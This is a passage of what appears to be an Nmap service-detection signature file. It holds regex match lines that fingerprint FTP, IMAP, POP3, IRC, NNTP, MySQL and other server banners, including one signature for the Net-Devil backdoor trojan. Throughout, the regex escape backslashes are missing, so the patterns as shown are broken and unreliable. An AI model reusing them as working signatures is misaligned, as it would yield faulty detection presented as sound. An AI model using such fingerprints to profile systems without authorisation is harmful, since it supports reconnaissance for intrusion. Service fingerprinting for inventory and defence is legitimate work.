match ftp m/^220-[-.w]+ IBM FTP.*(Vd+Rd+)/ v|IBM OS/390 ftpd|$1||
match ftp m/^220 VxWorks ((d[^)]+)) FTP server ready/ v/VxWorks ftpd/$1//
match ftp m/^220 VxWorks (VxWorks(d[^)]+)) FTP server ready/ v/VxWorks ftpd/$1//
match ftp m/^220.*Welcome to .*Pure-?FTPd (dS+s*)/ v/PureFTPd/$1//
match ftp m/^220.*Welcome to .*Pure-?FTPd[^(]+rn/ v/PureFTPd///
match ftp m/^220.*Bienvenue sur .*Pure-?FTPd (d[-.w]+)/ v/PureFTPd/$1//
match ftp m/^220 ready, dude (vsFTPd (d[0-9.]+): beat me, break me)rn/ v/vsFTPd/$1//
match ftp m/^220 (vsFTPd ([-.w]+))rn$/ v/vsFTPd/$1//
match ftp m/^220 TYPSoft FTP Server (dS+) ready...rn/ v/TYPSoft ftpd/$1//
match ftp m/^220-MegaBit Gear (S+).*FTP server ready/ v/MegaBit Gear ftpd/$1//
match ftp m/^220.*WS_FTP Server (dS+)/ v/WS FTPd/$1//
match ftp m/^220 Features: a p .rn$/ v/Publicfile ftpd///
match ftp m/^220 [-.w]+ FTP server (Version (S+) VFTPD, based on Version (S+)) ready.rn$/ v/Virtual FTPD/$1/based on $2/
match ftp m|220 [-.w]+ FTP server (Version (S+)/OpenBSD, linux port (S+)) ready.rn| v/OpenBSD ftpd/$1/Linux port $2/
match ftp m|^220 [-.w]+ FTP server (Version (S+)/OpenBSD/Linux-ftpd-([-.w]+)) ready.rn$| v/OpenBSD ftpd/$1/Linux port $2/
match ftp m/^220 Interscan Version ([-w.]+)/i v/Interscan Viruswall ftpd/$1//
match ftp m|^220 InterScan FTP VirusWall NT (d[-.w]+) (([-.w]+) Mode), Virus scan (w+)rn$| v/Interscan VirusWall NT/$1/Virus scan $3; $2 mode/
match ftp m|^220 [-.w]+ FTP server (Version ([-.w]+)/OpenBSD) ready.rn$| v/OpenBSD ftpd/$1//
match ftp m|^220-Welcome to [A-Z]+ FTP Service.rn220 All unauthorized access is logged.rn$| v/FileZilla ftpd///
match ftp m|^220 [-.w]+ FTP server (Version (6.0w+)) ready.rn| v/FreeBSD ftpd/$1//
# OpenBSD 3.4 beta running Pure-FTPd 1.0.16 with SSL/TLS
match ftp m|^220---------- Welcome to Pure-FTPd [privsep] [TLS] ----------rn220-You are user number| v|Pure-FTPd||with SSL/TLS|
match ftp m|^220---------- .* Pure-FTPd ----------rn220-| v/Pure-FTPd///
# Trolltech Troll-FTPD 1.28 (Only runs on Linux)
match ftp m|^220-Setting memory limit to 1024+1024kbytesrn220-Local time is now d+:d+ and the load is [.d]+.rn220 You will be disconnected after d+ seconds of inactivity.rn$| v/Trolltech Troll-FTPd//on Linux/
match ftp m|^220  FTP server (Hummingbird Ltd. (HCLFTPD) Version (7.1.0.0)) ready.rn$| v/Hummingbird FTP server/$1//
# Netware 6 - NWFTPD.NLM FTP Server Version 5.01w
match ftp m|^220 Service Ready for new Userrn$| v/Netware NWFTPD///
match ftp m|^220 ([-w]+) FTP server (NetWare (v[d.]+)) ready.rn$| v/Novell Netware ftpd/$2//
match ftp m|220  FTP Server for NW 3.1x, 4.xx  ((v1.10)), (c) 199[0-9] HellSoft.rn$| v/HellSoft FTP server for Netware 3.1x, 4.x/$1//
match ftp m|^220 [-.w]+ MultiNet FTP Server Process V(S+) at .+rn$| v/DEC OpenVMS MultiNet FTPd/$1//
match ftp m|^220-rn220 [-.w]+ FTP server (NetBSD-ftpd ([-.w]+)) ready.rn$| v/NetBSD ftpd/$1//
match ftp m|^220 ([-.w]+) Network Management Card AOS v([-.w]+) FTP server ready.rn$| v/APC AOS ftpd/$2/on APC $1 network management card/
# G-Net BB0060 ADSL Modem - the ftpd might be by "GlobespanVirata" as that
# is what the telnetd on this device said.
match ftp m|^220 FTP Server (Version 1.0) ready.rn$| v/G-Net DSL Modem ftpd/1.0//
# HP-UX B.11.00
match ftp m|^220 [-.w ]+ FTP server (Version (1.1.2[.d]+) [A-Z][a-z]{2} [A-Z][a-z]{2} .*) ready.rn| v/HP-UX ftpd/$1//
# 220 mirrors.midco.net FTP server ready.
match ftp m|^220-.*rn    WarFTPd (d[-.w]+) ([w ]+) Readyrn|s v/WarFTPd/$1//
match ftp m|^220 Welcome to Windows FTP Server| v|Windows Ftp Server||Not from Microsoft - http://srv.nease.net/|
match ftp-proxy m|^220 Ftp service of Jana-Server readyrn| v/JanaServer ftp proxy///
match ftp-proxy m|^220 [-.w]+ FTP proxy (Version (d[-.w]+)) ready.rn| v/Guantlet FTP proxy/$1//
# Frox FTP Proxy (frox-0.6.5) on Linux 2.2.X - http://frox.sourceforge.net/
match ftp-proxy m|^220 Frox transparent ftp proxy. Login with username[@host[:port]]rn| v/Frox ftp proxy///
match ftp-proxy m|^501 Proxy unable to contact ftp serverrn| v/Frox ftp proxy///
match ftp-proxy m|^220 [-.+w]+ FTP AnalogX Proxy (d[-.w]+) (Release) readyrn| v/AnalogX FTP proxy/$1//
match ftp-proxy m|^220 Secure Gateway FTP server ready.rn| v/Symantec Enterprise Firewall FTP proxy///
match ftp-proxy m/^220-Sidewinder ftp proxy.  You must login to the proxy first/ v/Sidewinder FTP proxy///
match ftp-proxy m/^220-rx0a220-Sidewinder ftp proxy/s v/Sidewinder FTP proxy///
# TODO kerio?
#match ftp m|^421 Service not available (The FTP server is not responding.)n$| v/unknown FTP server//service not responding/
softmatch ftp m/^220 [-.w ]+ftp.*rn$/i
softmatch ftp m/^220-[-.w ]+ftp.*rn220/i
softmatch ftp m/^220[- ].*ftp server.*rn/i
match fw1-rlogin m|^Check Point FireWall-1 authenticated RLogin server running on [-.w]+rnr| v/Check Point FireWall-1 authenticated RLogin server///
match gnats m|^200 [-.w]+ GNATS server (d[-.w]+) ready.rn| v/GNATS bugtracking system/$1//
# Returns ASCII data in the following format:
# |HardDrive1DevName|HardDrive1HardwareID|HardDrive1Temp|TempUnit|
# |HardDrive2DevName|HardDrive2HardwareID|HardDrive2Temp|TempUnit|
match hddtemp m+^|/dev/hdw|+ v/hddtemp hard drive info server///
# And now for some SORRY web servers that just blurt out an http "response" upon connection!!!
match http m|^HTTP/1.1 200 OKrnContent-type: text/htmlrnExpires: .*rnDate: .*rnPragma: no-cachernCache-Control: no-cachernrn<HTML><TITLE>JAP</TITLE>n| v/Java Anonymous Proxy///
match http m|^HTTP/1.0 500rnContent-type: text/plainrnrnNo Scan Capable Devices Foundrn| v/HP Embedded Web Server remote scan service//no scanner found/
# SMC Barricade 7004ABR
match http m|^HTTP/1.0 301 MovedrnLocation: http://d+.d+.d+.d+:88rn| v/SMB Barricade broadband router//simply redirects to real web admin port 88/
match hp-gsg m|^220 JetDirect GGW server (version (d[.d]+)) readyrn| v/HP JetDirect Generic Scan Gateway/$1//
match hylafax m|^220 [-.w]+ server (HylaFAX (tm) Version (d[-.w]+)) ready.rn$| v/HylaFAX/$1//
# Hylafax 4.1.6 on Linux 2.4
match hylafax m|^130 Warning, client address "[d.]+" is not listed for host name "[-.w]+".rn| v/HylaFAX//IP unauthorized/
match ichat m|^rn                                Welcome Torn                             ichat ROOMS (d[-.w]+)rn==| v|^iChat Rooms|$1||
match ident m|^flock() on closed filehandle .*midentd| v/midentd//broken/
match ident m|^nullidentd -- version (d[-.w]+)nCopyright | v/Nullidentd/$1/broken/
match imap m|^* OK [-/.+w]+ Solstice (tm) Internet Mail Server (tm) (d[-.w]+) IMAP4 service - at | v/Sun Solstice Internet Mail Server imapd/$1//
match imap m|^* OK GroupWise IMAP4rev1 Server Readyrn| v/Novell GroupWise imapd///
match imap m|^* OK dbmail imap (protocol version 4r1) server (d[-.w]+) ready to runrn| v/DBMail imapd/$1/imapd version may differ from overal dbmail version number/
match imap m|^* OK [-.+w]+ NetMail IMAP4 Agent server ready | v/Novell NetMail imapd///
match imap m|^* OK IMAP4 Server (IMail (d[-.w]+))rn| v/IMail imapd/$1//
match imap m|^* OK Merak (d[-.w]+) IMAP4rev1 | v/Merak Mail Server imapd/$1/Windows/
match imap m|^* OK [-.+w]+ IMAP4rev1 Mercury/32 v(d[-.w]+) server ready.rn| v|Mercury/32 imapd|$1|Win32|
match imap m|^* OK [-.w]+ IMAP4 service (Netscape Messaging Server (d[-.w ]+) (built ([w ]+)))rn| v/Netscape Messaging Server Imapd/$1/built $2/
match imap m|^* OK [CAPABILITY .*] [-.w]+ IMAP4rev1 (20[w.]+) at | v/UW imapd/$1//
match imap m|^* OK eXtremail V(d[-.w]+) release (d+) IMAP4 server startedrn| v/eXtremail IMAP server/$1.$2//
match imap m|^* OK [-.w]+ NetMail IMAP4 Agent server ready <.*>rn| v/Novell Netmail imapd///
# Alt-N MDaemon 6.5.1 imap server on Windows XP
match imap m|^* OK [-.w]+ IMAP4rev1 MDaemon (d[-.w]+) readyrn| v/Alt-N MDaemon imapd/$1//
# Dovecot IMAP Server - http://dovecot.procontrol.fi/
match imap m|^* OK dovecot ready.rn| v/Dovecot imapd///
# courier-0.36.1
match imap m|^* OK Courier-IMAP ready. Copyright 1998-2001 Double Precision, Inc.  See COPYING for distribution information.rn| v/Courier Imap/0.36 - 1.4//
# Courier-Imap 1.4.3-2.3
match imap m|^* OK Courier-IMAP ready. Copyright 1998-2002 Double Precision, Inc.  See COPYING for distribution information.rn| v/Courier Imap/1.4 - 2.3//
# Courier Imap 1.7.0 on Linux
# Courier IMAP server 1.6.2 on Linux
match imap m|* OK Courier-IMAP ready. Copyright 1998-2003 Double Precision, Inc.  See COPYING for distribution information.rn| v/Courier Imap/1.6.X - 1.7.X//
# Courier IMAP courier-imapd-0.42.0-1.7.3
# Courier IMAP 1.7.2
match imap m|^* OK [CAPABILITY IMAP4rev1 .*Courier-IMAP ready. Copyright 1998-2003 Double Precision, Inc.  See COPYING for distribution information.rn| v/Courier IMAP4rev1/1.7.X//
# courier-imap 2.0.0.20030809
match imap m|^* OK [CAPABILITY IMAP4rev1].*Courier-IMAP ready. Copyright 1998-2003 Double Precision, Inc.  See COPYING for distribution information.rn| v/Courier IMAP4rev1/2.0.X//
# Courier IMAP 1.7.2
match imap m|* OK [CAPABILITY IMAP4rev1 CHILDREN NAMESPACE THREAD=ORDEREDSUBJECT THREAD=REFERENCES SORT QUOTA] Courier-IMAP ready. Copyright 1998-2003 Double Precision, Inc.  See COPYING for distribution information.rn$| v/Courier IMAP4rev1/1.7.2//
match imap m|^* OK CommuniGate Pro IMAP Server ([-.w]+) at [-.w]+ readyrn$| v/CommuniGate Pro imapd/$1//
# W-Imapd-SSL v2001adebian-6
match imap m|^* OK [CAPABILITY IMAP4REV1 X-NETSCAPE LOGIN-REFERRALS STARTTLS AUTH=LOGIN] S+ IMAP4rev1 ([-.w]+) at| v/UW-Imapd-SSL/$1//
match imap m|^* OK Domino IMAP4 Server Release (d[-.w]+) +ready| v/Lotus Domino imapd/$1//
match imap m|^* OK Microsoft Exchange IMAP4rev1 server version ([-.w]+) | v/Microsoft Exchange IMAP4rev1 server/$1//
match imap m|^* OK Microsoft Exchange 2000 IMAP4rev1 server version (d[-.w]+) ([-.w]+) ready.rn| v/Microsoft Exchange 2000 IMAP4rev1 server/$1//
match imap m|^* OK [CAPABILITY IMAP4REV1 .*IMAP4rev1 (200d.[-.w]+) at| v/UW Imapd/$1//
match imap m|^* OK [-.w]+ Cyrus IMAP4 v([-.w]+) server readyrn| v/Cyrus IMAP4 server/$1//
match imap m|^* OK Welcome to Binc IMAP v(d[-.w]+)| v/Binc IMAPd/$1//
match imap m|^* OK [-.w]+ IMAP4rev1 AppleMailServer (d[-.w]+) readyrn| v/AppleMailServer imapd/$1//
match imap m|^* BYE Connection refusedrn| v/Microsoft Exchange IMAP server//refused/
softmatch imap m/^* OK [-.w,:+ ]+imap[-.w,:+ ]+rn$/i
# Cyrus IMSPD
match imsp m|^* OK Cyrus IMSP version (d[-.w]+) readyrn$| v/Cyrus IMSPd/$1//
# ircd-hybrid 7 on Linux
match irc m|^NOTICE AUTH :*** Looking up your hostname...rnNOTICE AUTH :*** Checking IdentrnNOTICE AUTH :*** Got Ident responsernNOTICE AUTH :*** Couldn't look up your hostnamern$| v/Hybrid ircd///
# Hybrid6/PTlink6.15.0 ircd on Linux
match irc m|^NOTICE AUTH :*** Looking up your hostname...rnNOTICE AUTH :*** Found your hostnamern$| v/Hybrid ircd///
# ircd 2.8/hybrid-6.3.1 on Linux
match irc m|^NOTICE AUTH :*** Looking up your hostname...rnNOTICE AUTH :*** Checking IdentrnNOTICE AUTH :*** No Ident responsernNOTICE AUTH :*** Found your hostnamern$| v/Hybrid ircd///
# ircd-hybrid-7.0 - apparently upset because Nmap reconnected too fast
match irc m|^ERROR :Trying to reconnect too fast.rn| v/Hybrid ircd///
# Hybrid-IRCD 7.0 on Linux 2.4
match irc m|^NOTICE AUTH :*** Looking up your hostname...rnNOTICE AUTH :*** Checking IdentrnNOTICE AUTH :*** Found your hostnamernNOTICE AUTH :*** Got Ident responsern| v/Hybrid ircd///
# dircproxy 1.0.3 on Linux 2.4.x
match irc-proxy m|^:dircproxy NOTICE AUTH :Looking up your hostname...rn:dircproxy NOTICE AUTH :Got your hostname.rn| v/dircproxy///
# Unreal IRCD Server version 3.2 beta 17
match irc m|^:[-.w]+ NOTICE AUTH :*** Looking up your hostname...rn| v/Unreal ircd///
# dancer-ircd 1.0.31+maint8-1
match irc m|^NOTICE AUTH :*** Looking up your hostname...rnNOTICE AUTH :*** Checking identrnNOTICE AUTH :*** No identd (auth) responsernNOTICE AUTH :*** Found your hostnamern$| v/Dancer ircd///
match irc m|^NOTICE AUTH :*** Looking up your hostname...rnNOTICE AUTH :*** Found your hostname, welcome backrnNOTICE AUTH :*** Checking identrnNOTICE AUTH :*** No identd (auth) responsern| v/Dancer ircd///
match irc m|^NOTICE AUTH :*** Checking IdentrnNOTICE AUTH :*** Got ident responsern| v/ircu Undernet IRCd///
# Bitlbee ircd 0.80
match irc m|^:[-.w]+ NOTICE AUTH :BitlBee-IRCd initialized, please go onrn| v/BitlBee IRCd///
# PTlink6.15.2 on Linux 2.4
match irc m|^NOTICE AUTH :*** Hostname lookup disabled, using your numeric IPrnNOTICE AUTH :*** Checking Identrn| v/PTlink ircd///
match irc m|^:[-.+w]+ NOTICE AUTH :*** Looking up your hostname...n:[-.+w]+ NOTICE AUTH :*** Checking Identn:[-.+w]+ NOTICE AUTH :*** Found your hostnamen| v/Bahamut Dalnet ircd//derived from DreamForge and Hybrid/
match irc-proxy m|^:Welcome!psyBNC@lam3rz.de NOTICE * :psyBNC([-.w]+)rn| v/psyBNC/$1//
match issrealsecure m|^.x08x01x03x01.x02.....x80x04...xa0|s v/ISS RealSecure IDS//for Windows/
# ISS RealSecure Server Sensor for Windows 6.5 on Windows NT 4.0 Server SP6a
# ISS RealSecure ServerSensor 7.0 on Windows 2000 Server
# ISS RealSecure Server Sensor 6.0 on Windows NT 4.0 Server SP6a
# ISS RealSecure Server Sensor 7.0 issdaemon on Microsoft Windows NT Workstation with SP6a
match issrealsecure m|^.x08x01x04x01.....f.x80x04...xa0.xa4|s v/ISS RealSecure IDS ServerSensor/6.0 - 7.0/for Windows/
match klogin m|^x01klogind: (All authentication systems disabled; connection refused)..rn| v/MIT Kerberos klogin//broken - $1/
match lmtp m|^220 [-.w]+ LMTP Cyrus v(d[-.w]+) readyrn| v/Cyrus Imap Daemon LMTP/$1//
# LSMS VPN Firewall GUI admin port
# LSMS Redundancy port
match lucent-fwadm m|^0001;2$| v/Lucent Secure Management Server///
match meetingmaker m/^xc1,$/ v/Meeting Maker calendaring///
match melange m|^+++Onlinern>> Melange Chat Server (Version (d[-.w]+)), Apr-25-1999rnnWelcome | v/Melange Chat Server/$1//
# lopster 1.2.0.1 on Linux 1.1
match mserv m|^200 Mserv (d[-.w]+) (c) James Ponder 2000 - Type: USER <username>rn.rn| v/Mserv music server/$1//
softmatch napster m|^1$|
match netrek m|^<>=======================================================================<>n  Pl: Rank       Name             Login      Host name                Typen| v/Netrek game server player information interface///
match mldonkey m|^x06x10-x14x02x06Donkeyx01x0c./donkey.inix11x02x13rx02nn***************************************************************************nn                         Welcome to MLdonkey          n| v/MLdonkey multi-network P2P GUI port///
match mldonkey m|^xffxfdx1frrrrrrrrrrrrrnrrrrrrrrrrrrrn***************************************************************************rrrrrrrrrrrrrnrrrrrrrrrrrrrn                         Welcome to MLdonkey          rrrrrrrrrrrrrn| v/MLdonkey multi-network P2P GUI port///
match mldonkey m|^xffxfdx1fWelcome to MLdonkeynx1b[34mWelcome on mldonkey command-linex1b[2;37;0mnnUse x1b[31m?x1b[2;37;0m for helpnnx1b[7mMLdonkey command-line:x1b[2;37;0mn> | v/MLdonkey multi-network P2P server control port///
# Microsoft ActiveSync Version 3.7 Build 3083 (It's used for syncing
# my ipaq it disapears when you remove the ipaq.)
match msactivesync m|^x16x01$UPTODATE$$| v/Microsoft ActiveSync///
match mud m|^nrxffxfbUDo you want ANSI color? (Y/n) $| v|ROM-based MUD||http://rrp.rom.org/|
match mysql m/^.xffjx04Host .* is not allowed to connect to this MySQL server$/ v/MySQL//unauthorized/
match mysql m|^.xffix04Host .* is blocked because of many connection errors.| v/MySQL//blocked - too many connection errors/
# MySQL 4.0.13
match mysql m/^....Al sistema '[-.w]+' non e` consentita la connessione a questo server MySQL$/ v/MySQL///
match mysql m/^..(3.[-.w]+).*x08x02$/s v/MySQL/$1//
match mysql m/^.n(3.[-.w]+).../s v/MySQL/$1//
# r(NULL,2B,"'n4.0.13xdfxbcx02SC7)fHu5, x08x02")
match mysql m/^.n(4.[-.w]+).../s v/MySQL/$1//
# Hmmm ... http://seclists.org/lists/incidents/2002/Mar/0047.html
# So "ncacn_http" may be used by multiple services.  I'll take this
# one out for now.
# match ncacn_http m|^ncacn_http/([d.]+)$| v/ncacn_http/$1//
# NCD Thinstar 300 running NCD Software 2.31 build 6
match ncd-diag m|^WinCE/WBT Diagnostic portnrSerial Number: (w+)  MAC Address: 0000(w+)s+.*CPU info: ([ -.+w/ ]+)rn.*(Windows CE Kernel[-.+:w ]+)r|s v|NCD Thinster Terminal Diagnostic port||Serial# $1; MAC: $2; CPU: $3; $4|
match netdevil m|^pass_pleaz$| v/Net-Devil backdoor//Windows **TROJAN**/
match netsaint m|^Sorry, you (d{1,3}.d{1,3}.d{1,3}.d{1,3}) are not among the allowed hosts...n$| v/Netsaint status daemon///
# I love this service:
match netstat m|^Active Internet connections (servers and established)nProto Recv-Q Send-Q Local Address           Foreign Address         State      n| v/Linux Netstat///
match netstat m|^netstat: invalid option -- fnusage: netstat [-veenNcCF]| v/Linux netstat//broken/
match nntp m|^nnrpd: invalid option -- SnUsage error.n| v/INN NNTPd//broken/
match nntp m|^200 [-.w]+ NNTP Service Ready - ([-.w]+@[-.w]+) (DIABLO (d[-.w ]+))rn| v/Diablo NNTP service/$2/Admin: $1/
match nntp m|^200 NNTP Service (d[-.w ]+) Version: (d[-.w ]+) Posting Allowed rn| v/Microsoft NNTP Service/$2/posting ok/
match nntp m|^200 [-.w]+ DNEWS Version  (d[-.w]+).*posting OK rn| v/Netwinsite DNEWS/$1/posting OK/
match nntp m|^200 Leafnode NNTP Daemon, version (d[-.w]+) running at| v/Leafnode NNTPd/$1//
match nntp m|^200 Lotus Domino NNTP Server for ([-./w]+) (Release (d[-.w]+), .*) - Not OK to postrn$| v/Lotus Domino nntpd/$2/on $1; posting denied/
match nntp m|^200 Lotus Domino NNTP Server for ([-./w]+) (Release (d[-.w]+), .*) - OK to postrn$| v/Lotus Domino nntpd/$2/on $1; posting ok/
softmatch nntp m|^200 [-[]()!,/+:<>@.w ]*nntp[-[]()!,/+:<>@.w ]*rn$|
# Windows 2000 Server read:
match nntp m|^200 NNTP Service 5.00.0984 Version: (5.0.2159.1) Posting Allowed rn| v/Microsoft NNTP Service/$1/posting OK/
match nntp m|^200 NNTP Service Microsoftxae Internet Services d[-.w]+ Version: (d[-.w]+) Posting Allowed rn| v/Microsoft NNTP Service/$1/posting OK/
match nntp m|^502 Connection refusedrn| v/Microsoft NNTP Service//refused/
# Windows NT 4.0 SP5-SP6 
match nntp m|^200 Microsoft Exchange Internet News Service Version (5.5.[.d]+) (posting allowed)rn| v/Microsoft Exchange Internet News Service/$1/posting allowed/
#match nntp m|^200 [-.w]+ InterNetNews NNRP server INN (d[-.w]+) ready (posting ok).rn| v/InterNetNews (INN)/$1/posting ok/
match nntp m|^200 [-.w]+ InterNetNews NNRP server INN (d[-.w ]+) ready (posting ok).rn| v/InterNetNews (INN)/$1/posting ok/
match nntp m|^200 NNTP-Server Classic Hamster Vr. d[-.w ]+ (Build (d[-.w ]+)) (post ok) says: Hi!rn| v/Classic Hamster NNTPd/$1/for Windows; posting ok/
# Windows 2000 Server Windows Media Unicast Service (NsUnicast) - Nsum.exe
match nsunicast m|^4V4x12x004x04xf0xd3x07t.........x02|s v/Microsoft Windows Media Unicast Service//nsum.exe/
match nsunicast m|^[4f]V4x12x00[4f].xf0xd3x07t...........|s v/Microsoft Windows Media Unicast Service//nsum.exe/
match pcanywheredata m/^Xx08}x08rn.x08.*...rn/s v/PCAnywhere///
match pbmasterd m|^pbmasterd(d[-.w]+)@[-.+w]+: | v/Symark Power Broker pbmasterd/$1/privilege separation software/
match pblocald m|^pblocald(d[-.w]+)@[-.+w]+: | v/Symark Power Broker pblocald/$1/privilege separation software/
match pksd m|^usage: [/w]*/etc/pksd.conf conf_filen$| v/PGP Public Key Server//broken/
# UW POP2 server on Linux 2.4.18
match pop2 m|^+ POP2 [-[].w]+ v(20[-.w]+) server readyrn$| v/UW POP2 server/$1//
match pop3 m|^+OK POP3 AnalogX Proxy (d[-.w]+) (Release) ready.n$| v/AnalogX POP3 proxy/$1//
# Novell Groupwise 6.0.1
match pop3 m|^+OK GroupWise POP3 server readyrn$| v/Novell GroupWise pop3d///
match pop3 m|^+OK Ready when you are <200d+.| v/Hotmail Popper hotmail to pop3 gateway///
match pop3 m|^+OK Internet Rex POP3 server ready <| v/Internet Rex Pop3 server///
match pop3 m|^+OK DBMAIL pop3 server ready to rock <| v/DBMail pop3d///
match pop3 m|^+OK POP3 POPFile (v(d[-.w]+)) server readyrn| v/popfile pop3d/$1//
# Dots in Revision to prevent MY CVS from screwing it up
match pop3 m|^+OK [-.+w]+ NetMail POP3 Agent $Re..sion: ([d.]+) $rn| v/Novell NetMail pop3d//File revision: $1/
match pop3 m|^+OK [-.+w]+ Merak (d[-.w]+) POP3 | v/Merak mail server pop3d/$1//
# Mercury/32 3.32 pop3 Server module on Windows XP
match pop3 m|^+OK <d{6,10}.d{4,6}@[-.+w]+>, POP3 server ready.rn| v|Mercury/32 pop3d||Win32|
# gnu/mailutils pop3d 0.3.2 on Linux
match pop3 m|^+OK POP3 Ready <d{3,6}.1[012]d{8}@[-.w]+>rn| v|GNU mailutils pop3d|||
# Solid POP3 Server 0.15 on Linux 2.4
match pop3 m|^+OK Solid POP3 server ready <d{3,6}.1[012]d{8}@[-.w]+>rn| v/Solid pop3d///
# Cyrus POP3 v2.0.16
match pop3 m|^+OK [-.w]+ Cyrus POP3 v(d[-.w]+) server readyrn| v/Cyrus pop3d/$1//
#  pop3d (GNU Mailutils 0.3) on Linux 2.4
match pop3 m|^+OK POP3 Ready <d{3,6}.1[012]d{8}@w+>rn| v/GNU Mailutils pop3d///
# dovecot 0.99.10 on Linux 2.4
match pop3 m|^+OK dovecot ready.rn| v/Dovecot pop3d///
# teapop 0.3.5 on Linux 2.4
match pop3 m|^+OK Teapop [v(d[-.w ]+)] - Teaspoon stirs around again .*rn| v/Teapop pop3d/$1//
# Qpopper v4.0.5 on Linux 2.4.19
match pop3 m|^+OK ready  rn$| v/Qpopper pop3d///
# Jana Server 1.45 on WIn98
match pop3 m|^+OK POP3 server ready <Jana-Server>rn| v/Jana POP3 server//Windows/
match pop3 m|^+OK AppleMailServer (d[-.w]+) POP3 server at [-.w]+ ready <d| v/AppleMailServer pop3d/$1//
match pop3 m|+OK <10d+.d+@[-.w]+> [XMail (d[-.w]+) (([-./w]+)) POP3 Server] service ready; | v/XMail pop3 server/$1/on $2/
# Mail-Enable pop3 server 1.704
match pop3 m|^+OK Welcome to MailEnable POP3 Serverrn| v/MailEnable POP3 Server///
match pop3 m|^+OK [-.w]+ running Eudora Internet Mail Server (d[-.w]+) <.*>rn| v/Eudora Internet Mail Server pop3d/$1//
# Qpopper 4.0.3 on Linux
# QPopper 4.0.4 FreeBSD
match pop3 m|^+OK ready  <d{1,5}.10d{8}@[-.w]+>rn| v/Qualcomm Qpopper pop3d///
match pop3 m|^+OK POP3 Welcome to GNU POP3 Server Version (d[-.w]+) <.*>rn| v/GNU POP3 Server/$1//
match pop3 m|^+OK eXtremail V(d[-.w]+) release (d+) POP3 server ready <.*>rn| v/eXtremail pop3d/$1.$2//
match pop3 m|^+OK POP3 Welcome to vm-pop3d (d[-.w]+) <.*>rn| v/vm-pop3d/$1/derived from gnu-pop3d/
# tpop3d v1.4.2 on Linux - http://www.ex-parrot.com/~chris/tpop3d/
match pop3 m|^+OK <[da-f]{32}@[-.w]+>rn| v/tpop3d///
match pop3 m|^+OK UCB based pop server (version (d[-.w]+) at sionisten) starting.rn| v/Heimdal kerberized pop3/$1/UCB-pop3 derived/
# VPOP3 (Virtual POP3 server) 2.0.0d on Windows 2000
match pop3 m|^+OK VPOP3 Server Ready <.*>rn| v/PSCS VPop3///
match pop3 m|^+OK Lotus Notes POP3 server version ([-.w]+) ready .* on ([^/]+)/([^.]+).rn| v/Lotus Domino POP3 server/$1/CN=$2;Org=$3/
match pop3 m|^+OK Lotus Notes POP3 server version ([-.w]+) ready on | v/Lotus Domino POP3 server/$1//
match pop3 m|^+OK POP3 hotwayd v(d[-.w]+) -> The POP3-HTTPMail Gateway.| v/hotwayd pop3d/$1//
match pop3 m|^+OK [-.w]+ POP3 service (Netscape Messaging Server (d[^(]+) (built ([w ]+)))rn| v/Netscape Messenging Server pop3/$1/built on $2/
match pop3 m/^+OK [-.w]+ Cyrus POP3 v(d[-.w]+) server ready </ v/Cyrus pop3d/$1//
match pop3 m/^+OK X1 NT-POP3 Server [-w.]+ (IMail ([^)]+))rn/ v/IMail pop3d/$1//
match pop3 m/^+OK POP3 [cppop (d[^]]+)] at [/ v/cppop pop3d/$1//
match pop3 m/^+OK Microsoft Exchange 2000 POP3 server version (S+).* ready.rn/ v/MS Exchange 2000 pop3d/$1//
match pop3 m/^+OK Microsoft Exchange POP3 server version (S+) readyrn/ v/MS Exchange pop3d/$1//
match pop3 m/^+OK QPOP (version ([^)]+)) at .*starting./ v/Qpop pop3d/$1//
match pop3 m/^+OK QPOP Modified by Compaq (version ([^)]+)) at .*starting./ v/QPop pop3d/$1//
match pop3 m/^+OK Qpopper .*(version ([^)]+)) at .*starting./ v/Qpopper pop3d/$1//
match pop3 m/^+OK [-.w]+ POP3 server (Netscape Mail Server v(d[-.w])) ready/ v/Netscape Mail Server pop3d/$1//
match pop3 m/^+OK Cubic Circle's v(d[-.w]+) .* POP3 ready/ v/Cubic Circle Cucipop pop3d/$1//
match pop3 m/^+OK CCProxy (S+) POP3 Service Readyrn/ v/CCProxy pop3d/$1//
match pop3 m/^+OK ArGoSoft Mail Server Freeware, Version S+ (([^)]+))rn/ v/ArGoSoft freeware pop3d/$1//
match pop3 m/^+OK [-.w]+ Execmail POP3 ((d[^)]+))/ v/Execmail pop3d/$1//
match pop3 m/^+OK MailSite POP3 Server (S+) Ready </ v/MailSite pop3d/$1//
match pop3 m/^Proxy+ POP3 server. Insecure access - terminating.rn/ v/Proxy+ pop3d///
match pop3 m/^+OK [-.w]+ POP MDaemon (S+) ready <MDAEMON/ v/MDaemon pop3d/$1//
# qmail-pop3d 1.03-1
match pop3 m/^+OK <d{1,5}.10d{8}@[-.w]+>rn$/ v/qmail-pop3d///
# Courier Pop3 courier-pop3d-0.42.0-1.7.3
match pop3 m|^+OK Hello there.rn$| v/Courier pop3d///
match pop3 m|^+OK ArGoSoft Mail Server Pro for WinNT/2000/XP, Version [-.w]+ (([-.w]+))rn$| v/ArGoSoft Mail Server Pro pop3d/$1//
match pop3 m/^+OK [-.w]+ VisNetic.MailServer.v([-.w]+) POP3 / v/VisNetic MailServer pop3d/$1//
match pop3 m/^+OK [-.w]+ POP3 server (Post.Office v([-.w]+) release ([-.w]+) with ZPOP version ([-.w]+)) ready / v|Post.Office pop3d|$1 release $2|w/ZPOP $3|
match pop3 m/^+OK CommuniGate Pro POP3 Server ([-.w]+) ready/ v/CommuniGate Pro/$1//
match pop3 m/^+OKrn$/ v/Openwall popa3d///
match pop3 m|^+OK [-.w]+ MultiNet POP3 Server Process V(S+) at| v/DEC OpenVMS MultiNet pop3d/$1//
match pop3 m|^+OK <.*>, MercuryP/NLM v(d[-.w]+) ready.rn$| v/Mercury POP3 server/$1/on Novell Netware/
match pop3 m|^+OK Microsoft Windows POP3 Service Version 1.0 <| v/Microsoft Windows 2003 POP3 Service/1.0//
match pop3 m|^+OK POP3 [-.w]+ v?(200d.[-.w]+) server readyrn| v/UW Imap pop3 server/$1//
match pop3 m|^+OK POP3 server ready <w{11}>rn$| v/WebSTAR pop-3 server///
match pop3 m|^+OK TrendMicro IMSS (d[-.w ]+) POP3 Proxy at [-.w]+rn| v/TrendMicro IMSS virus scanning POP3 proxy/$1//
match pop3 m|^+OK Kerio MailServer (d[-.w]+) POP3 server ready <([-.w@:]+)>rn$| v/Kerio MailServer POP3 Server/$1/$2/
softmatch pop3 m|^+OK [-[]()!,/+:<>@.w ]+rn$|
# http://echelon.pl/pubs/poppassd.html
# you give it username, present password and new password, and
# it changes the password of the user.
# poppassd 1.8.1
